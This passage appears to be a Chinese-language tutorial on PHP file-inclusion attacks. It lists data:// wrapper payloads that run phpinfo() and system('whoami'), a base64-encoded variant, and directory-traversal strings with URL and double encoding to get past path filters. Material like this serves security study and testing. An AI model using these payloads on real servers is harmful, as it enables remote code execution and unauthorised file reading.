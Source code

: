 ## data://

> 利用条件：
>
> ​	1.PHP版本大于5.2
>
> ​	2.allow_url_fopen=on
>
> ​	3.allow_url_include=on

```
姿势一：
	/?file=data:text/plain,<?php phpinfo();?>
	/?file=data:text/plain,<?php system('whoami')?>
姿势二：
	/?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
	+号的URL编码%2b,base64解码为<?php phpinfo();?>
```



# 3.绕过

正常平台不可能直接是 `include $_GET['file'];` 这么简单，一般会指定前后缀

## 指定前缀

```
<?php
    $file = $_GET['file'];
    include '/var/www/html/'.$file;
?>
```

### 	目录遍历

​		假设/var/log/test.txt中有代码<?php phpinfo();?>

```
/?file=../../log/test.txt
```

​	服务器会对../等做过滤，可以用编码来绕过

```
利用url编码
	../
		%2e%2e%2f
		..%2f
		%2e%2e/
	..\
		%2e%2e%5c
		..%5c
		%2e%2e\
二次编码
	../
		%252e%252e%252f
	..\
		%252e%252e%255c
```
